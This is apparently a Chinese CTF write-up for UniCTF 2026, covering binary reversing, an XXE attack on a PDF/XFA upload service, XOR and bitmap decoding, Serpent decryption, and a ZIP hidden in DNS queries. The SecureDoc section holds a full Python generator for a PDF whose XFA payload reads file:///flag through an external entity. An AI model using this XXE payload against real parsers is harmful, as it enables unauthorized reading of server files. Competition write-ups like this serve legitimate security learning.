







封面图片：《[オフライン.avif](https://static.wixstatic.com/media/7ac599_fd27d458172444aeb4b8f26278ab5f90~mv2.jpg/v1/fill/w_539,h_701,al_c,q_85,usm_0.66_1.00_0.01,enc_auto/7ac599_fd27d458172444aeb4b8f26278ab5f90~mv2.jpg)》&emsp;|&emsp;作者：アボガド6 (Avogado6)

---
# UniCTF 2026 WP



感觉好难啊……再接再厉吧。

---

## c_polynomial

下载附件并解压，得到一个EXE文件。

先运行看看：



看起来似乎要找到特定的9个数字。

用Ghidra反编译试试：

```c

int __cdecl .text(int _Argc,char **_Argv,char **_Env)

{
    bool bVar1;
    int iVar2;
    BOOL BVar3;
    FILE *pFVar4;
    byte local_88 [26];
    undefined1 local_6e [38];
    undefined4 local_48;
    undefined4 local_44;
    undefined4 local_40;
    undefined4 local_3c;
    undefined2 local_38;
    undefined2 local_36;
    undefined2 local_34;
    undefined2 local_32;
    undefined2 local_30;
    undefined1 local_29;
    ulonglong local_28;
    undefined8 *local_20;
    int local_18;
    int local_14;
    int local_10;
    int local_c;

    __main();
    feclearexcept(0x3f);
    iVar2 = fetestexcept(3);
    if (iVar2 != 0) {
        puts("Floating point exceptions are set, possibly being debugged.");
        /* WARNING: Subroutine does not return */
        exit(1);
    }
    BVar3 = IsDebuggerPresent();
    if (BVar3 != 0) {
        puts("This program is being debugged. Exiting!");
        /* WARNING: Subroutine does not return */
        exit(1);
    }
    printf("I\'m practicing my neuro math skills. Give me nine integers: ");
    scanf("%d %d %d %d %d %d %d %d %d",&coeffs,&DAT_00408044,&DAT_00408048,&DAT_0040804c,&DAT_004080 50
          ,&DAT_00408054,&DAT_00408058,&DAT_0040805c,&DAT_00408060);
    printf("Hmm, let me think");
    pFVar4 = __iob_func();
    fflush(pFVar4 + 1);
    BVar3 = IsDebuggerPresent();
    if (BVar3 != 0) {
        puts("This program is being debugged. Exiting!");
        /* WARNING: Subroutine does not return */
        exit(1);
    }
    putchar(0x2e);
    pFVar4 = __iob_func();
    fflush(pFVar4 + 1);
    putchar(0x2e);
    pFVar4 = __iob_func();
    fflush(pFVar4 + 1);
    puts(".");
    local_c = -0x3c;
    do {
        if (0x3b < local_c) {
            if (DAT_00408060 != 1) {
                for (local_14 = 0; local_14 < 9; local_14 = local_14 + 1) {
                    (&coeffs)[local_14] = (int)(&coeffs)[local_14] / DAT_00408060;
                }
            }
            BVar3 = IsDebuggerPresent();
            if (BVar3 == 0) {
                if (DAT_0040805c == -0x25e) {
                    if (DAT_00408058 == 0xac52) {
                        printf("Correct! Here\'s the flag: ");
                        local_48 = coeffs;
                        local_44 = DAT_00408044;
                        local_40 = DAT_00408048;
                        local_3c = DAT_0040804c;
                        local_38 = (undefined2)DAT_00408050;
                        local_36 = (undefined2)DAT_00408054;
                        local_34 = (undefined2)DAT_00408058;
                        local_32 = (undefined2)DAT_0040805c;
                        local_30 = (undefined2)DAT_00408060;
                        memcpy(local_88,&local_48,0x1a);
                        memcpy(local_6e,&local_48,0x1a);
                        for (local_18 = 0; local_18 < 0x34; local_18 = local_18 + 1) {
                            local_88[local_18] = (&xorcode)[local_18] ^ local_88[local_18];
                            putchar((uint)local_88[local_18]);
                        }
                        putchar(10);
                        iVar2 = 0;
                    }
                    else {
                        printf("WRONG");
                        iVar2 = 1;
                    }
                }
                else {
                    printf("WRONG");
                    iVar2 = 1;
                }
                return iVar2;
            }
            puts("This program is being debugged. Exiting!");
            /* WARNING: Subroutine does not return */
            exit(1);
        }
        total = 0;
        power = 1;
        for (local_10 = 0; local_10 < 9; local_10 = local_10 + 1) {
            total = total + (&coeffs)[local_10] * power;
            power = power * local_c;
            result = total;
        }
        if ((local_c == 0x72) || (local_c == 0x202)) {
            LAB_0040177a:
            bVar1 = true;
        }
        else {
            v12 = local_c + 0x25;
            if (v12 < 0x37) {
                local_28 = (ulonglong)v12;
                local_20 = &v5;
                local_29 = (v5 >> (local_28 & 0x3f) & 1) != 0;
                if ((bool)local_29) goto LAB_0040177a;
            }
            bVar1 = false;
        }
        if (bVar1) {
            BVar3 = IsDebuggerPresent();
            if (BVar3 != 0) {
                puts("This program is being debugged. Exiting!");
                /* WARNING: Subroutine does not return */
                exit(1);
            }
            if (result != 0) {
                puts("Those aren\'t the right numbers. Try again!");
                return 1;
            }
        }
        else if (result == 0) {
            BVar3 = IsDebuggerPresent();
            if (BVar3 == 0) {
                puts("Those aren\'t the right numbers. Try again!");
                return 1;
            }
            puts("This program is being debugged. Exiting!");
            /* WARNING: Subroutine does not return */
            exit(1);
        }
        local_c = local_c + 1;
    } while( true );
}

```

代码不算特别长，不过似乎有意在反调试。考虑到题目的难度，应该只需要静态分析就可以完成。

首先看看程序在做什么：

首先，让用户输入9个数字，存储在全局变量中。

 ```c
 printf("I\'m practicing my neuro math skills. Give me nine integers: ");
 scanf("%d %d %d %d %d %d %d %d %d",&coeffs,&DAT_00408044,&DAT_00408048,&DAT_0040804c,&DAT_004080 50
       ,&DAT_00408054,&DAT_00408058,&DAT_0040805c,&DAT_00408060);
 printf("Hmm, let me think");
 ```

然后，设置一个值local_c = -0x3c（-60），进入一个大循环。

```c
local_c = -0x3c;  // 设置循环变量从-60开始
do {
    if (0x3b < local_c) {  // 如果 59 < local_c
        // 依据循环结束的变量输出对应信息并退出程序
    }
    // 循环体内的验证代码
    local_c = local_c + 1;  // 循环变量+1
} while( true );  // 从-60循环到59
```

在循环结束之前的120次循环中，对于输入做以下处理：

1. 设输入的9个数为c0~c8，x=local_c，<strong>求 c0 + c1 · x + c2 · x<sup>2</sup> + c3 · x<sup>3</sup> + c4 · x<sup>4</sup> + c5 · x<sup>5</sup> + c6 · x<sup>6</sup> + c7 · x<sup>7</sup> + c8 · x<sup>8</sup></strong>

```c
total = 0;
power = 1;
for (local_10 = 0; local_10 < 9; local_10 = local_10 + 1) {
    total = total + (&coeffs)[local_10] * power;
    power = power * local_c;
    result = total;
}
```

2. 验证这个8次多项式的值

```c
if ((local_c == 0x72) || (local_c == 0x202)) {
    LAB_0040177a:
    bVar1 = true;
}  // 0x72(114)和0x202(514)不在循环中（-60~59）
else {
    v12 = local_c + 0x25;  // v12 = x+37
    if (v12 < 0x37) {  // 如果v12<55 (-60<=x<18)
        local_28 = (ulonglong)v12;
        local_20 = &v5;
        local_29 = (v5 >> (local_28 & 0x3f) & 1) != 0;  // 检查v5的(v12%64)位是否为1
        if ((bool)local_29) goto LAB_0040177a;  // 如果v5的(v12%64)位为1 跳转到LAB_0040177a
    }
    bVar1 = false;
}
if (bVar1) {
    BVar3 = IsDebuggerPresent();  // 反调试
    if (BVar3 != 0) {
        puts("This program is being debugged. Exiting!");
        /* WARNING: Subroutine does not return */
        exit(1);
    }
    // result是多项式在当前local_c的值的结果
    if (result != 0) {  // 结果!=0则结束，也就是说，在某些特定的local_c，多项式结果必须为0
        puts("Those aren\'t the right numbers. Try again!");
        return 1;
    }
}
else if (result == 0) {
    BVar3 = IsDebuggerPresent();  // 反调试
    if (BVar3 == 0) {
        puts("Those aren\'t the right numbers. Try again!");
        return 1;
    }
    puts("This program is being debugged. Exiting!");
    /* WARNING: Subroutine does not return */
    exit(1);
}
```

循环（120次求值）正常结束（满足特定的local_c=0且没有调试）后的处理：

```c
if (DAT_00408060 != 1) {  //如果最后一个数字(c8)不为1
    for (local_14 = 0; local_14 < 9; local_14 = local_14 + 1) {  //所有系数除以c8(令c8=1)
        (&coeffs)[local_14] = (int)(&coeffs)[local_14] / DAT_00408060;
    }
}
BVar3 = IsDebuggerPresent();  // 反调试
if (BVar3 == 0) {
    if (DAT_0040805c == -0x25e) {  //检查 c7=-606
        if (DAT_00408058 == 0xac52) {  //检查 c6=44114
            printf("Correct! Here\'s the flag: ");  
            // 准备输出flag
            local_48 = coeffs;
            local_44 = DAT_00408044;
            local_40 = DAT_00408048;
            local_3c = DAT_0040804c;
            local_38 = (undefined2)DAT_00408050;
            local_36 = (undefined2)DAT_00408054;
            local_34 = (undefined2)DAT_00408058;
            local_32 = (undefined2)DAT_0040805c;
            local_30 = (undefined2)DAT_00408060;
            memcpy(local_88,&local_48,0x1a);
            memcpy(local_6e,&local_48,0x1a);
            for (local_18 = 0; local_18 < 0x34; local_18 = local_18 + 1) {
                //  异或解密并输出
                local_88[local_18] = (&xorcode)[local_18] ^ local_88[local_18];
                putchar((uint)local_88[local_18]);
            }
            putchar(10);
            iVar2 = 0;
        }
        else {
            printf("WRONG");  // c6!=44114
            iVar2 = 1;
        }
    }
    else {
        printf("WRONG");  // c7!=606
        iVar2 = 1;
    }
    return iVar2;
}
puts("This program is being debugged. Exiting!");
/* WARNING: Subroutine does not return */
exit(1);
}
```

<strong>总结：bVar1默认false。当bVar1=true时，多项式的结果必须为0。v5决定了哪些local_c的多项式必须为0</strong>。

静态分析中可以找到v5的值：0x00400C0210000001


依据以下代码可知local_c=114和local_c=514时多项式应为0。

```c
if ((local_c == 0x72) || (local_c == 0x202)) {
LAB_0040177a:
bVar1 = true;
}
```

而依据v5的值，我们可以找到其他的根：[-59, -58, -47, -37, -9, -4, 5, 6, 17]

```python
v5 = 0x00400C0210000001
solution = []
for x in range(-60,18):
    v12 = x+37
    local_29 = (v5 >> (v12 & 0x3f) & 1) != 0
    if local_29:
        solution.append(x)
print(solution)
```

所以所有的根是：[114,514,-59, -58, -47, -37, -9, -4, 5, 6, 17]

但是，8次多项式最多只有8个根，怎么会有11个根？

观察代码，可以发现<strong>汇编代码使用的是无符号比较（JA）：</strong>



在无符号比较下，负数会变得很大。也就是说，<strong>只有v12>=0的时候(x>=-37)才会判断多项式是否为0</strong>。

<strong>那么，我们知道这个多项式的所有根：[114,514,-37, -9, -4, 5, 6, 17]</strong>

然后我们需要给出这个多项式的9个系数。

既然知道所有的根，那么<strong>多项式可以写成：(x-114)(x-514)(x+37)(x+9)(x+4)(x-5)(x-6)(x-17)</strong>

展开后得到：

-39805434720 + 1913427864x + 2877618036x² - 195296614x³ - 37214631x⁴ + 1704556x⁵ + 44114x⁶ - 606x⁷ + x⁸

也就是：<strong>[-39805434720,1913427864,2877618036,-195296614,-37214631,1704556,44114,-606,1]</strong>

从代码中我们可以得到一些提示：
```c
if (DAT_00408060 != 1)  //c8=1
if (DAT_0040805c == -0x25e)  //c7=-606
if (DAT_00408058 == 0xac52)  //c6=44114
```

完全符合我们刚刚展开的多项式。

按照顺序输入就可以拿到flag：<strong>unictf{19287189-291837918-knsadainwak-siadnwoadiasg}</strong>



---


## SecureDoc

题目提到的XFA是一种已经被弃用的技术，XFA 表单中的数据被存储在PDF文件中的独立XML结构中。

我没有找到非常详细的XFA的介绍，用AI生成了一个包含基本PDF结构并且注入恶意XML代码的PDF:

```python
def create_test_xxe_pdf():
    # 核心的XXE payload
    xxe_payload = """
    <?xml version="1.0"?>
<!DOCTYPE xfa [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<xdp:xdp xmlns:xdp="http://ns.adobe.com/xdp/">
    <template>
        <subform name="form1">
            <field name="field1">
                <ui>
                    <textEdit/>
                </ui>
                <value>
                    <text>&xxe;</text>
                </value>
            </field>
        </subform>
    </template>
</xdp:xdp>
"""

    # 构建PDF的各个部分
    pdf_content = []

    # 1. PDF头部
    pdf_content.append(b"%PDF-1.4")

    # 2. 对象1: Catalog (目录)
    pdf_content.append(b"1 0 obj")
    pdf_content.append(b"<<")
    pdf_content.append(b"/Type /Catalog")
    pdf_content.append(b"/Pages 2 0 R")
    pdf_content.append(b"/AcroForm 3 0 R")
    pdf_content.append(b">>")
    pdf_content.append(b"endobj")

    # 3. 对象2: Pages (页面)
    pdf_content.append(b"2 0 obj")
    pdf_content.append(b"<<")
    pdf_content.append(b"/Type /Pages")
    pdf_content.append(b"/Kids [4 0 R]")
    pdf_content.append(b"/Count 1")
    pdf_content.append(b">>")
    pdf_content.append(b"endobj")

    # 4. 对象3: AcroForm (交互式表单 - 包含XFA)
    pdf_content.append(b"3 0 obj")
    pdf_content.append(b"<<")
    pdf_content.append(b"/Fields []")
    pdf_content.append(b"/XFA 5 0 R")
    pdf_content.append(b">>")
    pdf_content.append(b"endobj")

    # 5. 对象4: Page (页面内容)
    pdf_content.append(b"4 0 obj")
    pdf_content.append(b"<<")
    pdf_content.append(b"/Type /Page")
    pdf_content.append(b"/Parent 2 0 R")
    pdf_content.append(b"/MediaBox [0 0 612 792]")
    pdf_content.append(b"/Contents 6 0 R")
    pdf_content.append(b"/Resources << >>")
    pdf_content.append(b">>")
    pdf_content.append(b"endobj")

    # 6. 对象5: XFA流 (包含XXE payload)
    xfa_bytes = xxe_payload.encode('utf-8')
    pdf_content.append(b"5 0 obj")
    pdf_content.append(b"<<")
    pdf_content.append(b"/Length " + str(len(xfa_bytes)).encode())
    pdf_content.append(b">>")
    pdf_content.append(b"stream")
    pdf_content.append(xfa_bytes)
    pdf_content.append(b"endstream")
    pdf_content.append(b"endobj")

    # 7. 对象6: 页面内容流
    page_content = b"BT /F1 12 Tf 100 700 Td (Test PDF with XFA) Tj ET"
    pdf_content.append(b"6 0 obj")
    pdf_content.append(b"<<")
    pdf_content.append(b"/Length " + str(len(page_content)).encode())
    pdf_content.append(b">>")
    pdf_content.append(b"stream")
    pdf_content.append(page_content)
    pdf_content.append(b"endstream")
    pdf_content.append(b"endobj")

    # 8. xref表
    body = b"\n".join(pdf_content)
    xref_offset = len(body)

    xref = b"xref\n0 7\n"
    xref += b"0000000000 65535 f \n"
    xref += b"0000000010 00000 n \n"
    xref += b"0000000100 00000 n \n"
    xref += b"0000000200 00000 n \n"
    xref += b"0000000300 00000 n \n"
    xref += b"0000000400 00000 n \n"
    xref += b"0000000500 00000 n \n"

    # 9. trailer
    trailer = b"trailer\n<<\n/Size 7\n/Root 1 0 R\n>>\n"
    trailer += b"startxref\n" + str(xref_offset).encode() + b"\n"
    trailer += b"%%EOF"

    final_pdf = body + b"\n" + xref + trailer
    return final_pdf

# 创建并保存PDF
with open("test_xxe.pdf", "wb") as f:
    f.write(create_test_xxe_pdf())
```

运行代码就会生成一个PDF，把PDF提交上去就可以看到返回的flag

关键在于注入的恶意代码：

```python
<?xml version="1.0"?>
<!DOCTYPE xfa [
<!ENTITY xxe SYSTEM "file:///flag">  <!-- 定义一个外部实体xxe="file:///flag" -->
]>
<xdp:xdp xmlns:xdp="http://ns.adobe.com/xdp/">
    <template>
        <subform name="form1">
            <field name="field1">
                <ui>
                    <textEdit/>
                </ui>
                <value>
                    <text>&xxe;</text>  <!-- 引用这个外部实体 -->
                </value>
            </field>
        </subform>
    </template>
</xdp:xdp>
```

代码定义了一个外部实体随后引用它，当XML解析器解析这个引用的时候会用"file:///flag"的内容替换"&xxe;"

于是我们就在解析器返回的结果中看到了flag

---


## 截取的线索

下载附件，是一个TXT文本和一个PNG图像。

文本7.txt内容如下：

> RinDSA|W6dlkbXsob

应该是经过了某种编码或者加密。

编码的话，首先想到的是base64，但是base64的字符集不包含'|'，所以应该是其他的方法。

加密的话，从简单的开始考虑，首先想到的是XOR，但我们需要密钥。

文件名是'7'，也许这就是密钥？试一下：

```python
c = "RinDSA|W6dlkbXsob"
m = ""
for i in c:
    m += chr(ord(i) ^ 7)
print(m)
```

输出：<strong>UniCTF{P1ckle_the</strong>

看起来是flag的左段。那么右段应该就在附件的另外一个文件中。

PNG是一个96*1的黑白像素图，很难不想到01比特流。


认为黑色像素代表1白色像素代表0的话可以得到：

101000001011100010001101100110101001111010001011101000001000101110010000110011111100111010000010

尝试作为ASCII：

```python
c = "101000001011100010001101100110101001111010001011101000001000101110010000110011111100111010000010"
m = ""
for i in range(0, 96, 8) :
    bytes = c[i:i+8]
    char = int(bytes, 2)
    m += chr(char)
print(m)
```

但是打印出的结果很奇怪，包含了不可见字符。

反转一下（黑色像素代表0白色像素代表1）试试：

```python
c = "010111110100011101110010011001010110000101110100010111110111010001101111001100000011000101111101"
m = ""
for i in range(0, 96, 8) :
    bytes = C[i:i+8]
    char = int(bytes, 2)
    m += chr(char)
print(m)
```

输出：<strong>_Great_to01}</strong>

合并之后就是完整的flag：<strong>UniCTF{P1ckle_the_Great_to01}</strong>

---


## Sign in

下载附件，是一个压缩包：attachment.zip

解压之后是一个文件：Serpent.dat

直接打开只能看见一些杂乱的数据，混杂着不可见字符。

用十六进制编辑器查看：

> 32E393BB 94638401 59017E99 12FCD4D0 6138D9EE FF5153A4 2837C456 5C4297D4

这应该就是密文了。

文件的名字是<strong>Serpent</strong>，这是一种高安全性的对称密钥分组密码算法。

密文的长度也刚好是两个分组的长度，猜测加密使用的算法就是Serpent加密算法。

但是密钥是什么呢？

Serpent.dat本身32字节，没有再分析出更多信息。但是解压前的压缩包却有200字节，也许信息藏在压缩包中。

查看压缩包的十六进制数据，在数据尾部发现了可疑的字符串：<strong>U2VjcmV0S2V5</strong>

用在线的Serpent加密解密网站](http://serpent.online-domain-tools.com/)试试解密。

由于没有找到更多的信息，先选择ECB模式，U2VjcmV0S2V5作为key试试。

但是得到的结果很奇怪。也许key是经过处理的。

没有更多的信息，先试试<strong>base64解码：SecretKey</strong>

这看起来更像是key，用这个作为key解密就可以拿到flag：<strong>UniCTF{Serpentine_Secrets}</strong>


## Silent Resolver

下载附件，是一个流量包文件。打开之后观察，可以发现一些可疑的域名：



这些域名和其他域名明显不同。提取6条域名中间不同的部分：

> "kbfqgbauaaaaacaajbsskxfwamzbcoaaaaadmaaaaaeaaaaamz",
> "wgczzoor4hic6nzn2a44nloyy4qk4jb4utekjorf37cc4ob4wd",
> "klrsjqwy4n6pgcxiz5zvjthsrcpxgbgdddqpgzhc4mrofgxaka",
> "cqjmaqefadcqaaaaaiabegkjk4wybteejyaaaaanqaaaaaqaaa",
> "aaaaaaaaaaaaaaeaaeaaaaaamzwgczzoor4hiuclaudaaaaaaa",
> "qaaiagyaaaac6aaaaaaaa"

按照顺序拼接起来，可以得到一条很长的字符串：

> kbfqgbauaaaaacaajbsskxfwamzbcoaaaaadmaaaaaeaaaaamzwgczzoor4hic6nzn2a44nloyy4qk4jb4utekjorf37cc4ob4wdklrsjqwy4n6pgcxiz5zvjthsrcpxgbgdddqpgzhc4mrofgxakacqjmaqefadcqaaaaaiabegkjk4wybteejyaaaaanqaaaaaqaaaaaaaaaaaaaaaaaeaaeaaaaaamzwgczzoor4hiuclaudaaaaaaaqaaiagyaaaac6aaaaaaaa

全部由小写字母和数字组成，先考虑base编码。

base64的字符集包含大小写字母和数字0~9以及'+'和'/'

base32的字符集包含字母（通常是大写字母）和数字2~7

尝试了base64解码，得到的结果非常奇怪。

字符串只出现了小写字母，数字2~7，也许是base32编码，尝试base32解码试试：

> PKHe%\�286flag.txt��tq�v1�+�)2).�w��,5.2L-�7�0���5L�(��0L1�6N.2.)�PKHe%\�286�flag.txtPK  ��

得到结果也很奇怪，但出现了一部分可疑的可打印字符：<strong>flag.txt</strong>

看看十六进制形式：

> 504B03041400000008004865255CB6033211380000003600000008000000666C61672E7478740BCDCB740E71AB7631C82B890F2932292E8977F10B8E0F2C352E324C2D8E37CF30AE8CF7354CCF2889F7304C318E0F364E2E322E29AE0500504B010214031400000008004865255CB60332113800000036000000080000000000000000000000800100000000666C61672E747874504B05060000000020002006C000000BC000000000

<strong>504B0304，是ZIP的文件头</strong>

用十六进制编辑器保存这段数据：



然后再解压，得到flag.txt，flag就在其中：<strong>UniCTF{D0nt_Tr4st_DNS_Qu3r1es_7h3y_M1ght_H1d3_S3cr3ts}</strong>
